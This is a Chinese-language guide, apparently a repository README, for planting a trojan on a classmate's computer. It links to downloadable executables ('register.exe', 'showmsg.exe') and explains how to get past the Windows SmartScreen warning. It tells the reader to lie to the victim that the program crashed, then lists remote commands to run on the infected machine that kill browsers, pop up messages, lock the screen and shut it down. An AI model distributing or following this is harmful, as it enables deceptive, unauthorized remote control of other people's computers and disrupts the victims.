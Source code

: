 # 让同伴打开以下网站：

[https://b.helloosme.eu.org/](https://b.helloosme.eu.org/)

点击“激活方法”，你将作为同伴的同伴，下载两个程序：

[https://osfiles.pages.dev/register.exe](https://osfiles.pages.dev/register.exe)

[https://osfiles.pages.dev/showmsg.exe](https://osfiles.pages.dev/showmsg.exe)

打开`此电脑`，然后打开`C:\`，然后打开`Users`文件夹或`用户`文件夹，然后打开`Lenovo`文件夹，然后打开`下载`文件夹或`Downloads`文件夹;

打开`register.exe`然后点击最小化图标:  
![](https://questionimg.3d66.com//answers/question/20210815/4717e3433d32f4dda61aa8dba7c61f3d.gif)

记住一定要比同伴的`ob.exe`先打开，同伴打开`ob.exe`后叫其稍等，等出现以下弹窗

 <h2>Q:出现"windows已保护你的电脑"怎么办？</h2>
A:别担心，这是因为程序是自己写的，没有人家大公司的认证证书。<br>
点击"更多信息"，再点击"仍要运行"即可。

解决后等一会，然后对同伴谎称程序崩溃，要让我重新开发，等同伴看视频/做题时，重新调出那个register.exe窗口（屏幕最底下那个黑框框里有个register.exe程序图标，点一下）

当程序窗口内出现`目标连接成功`后即为成功植入木马。

# 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
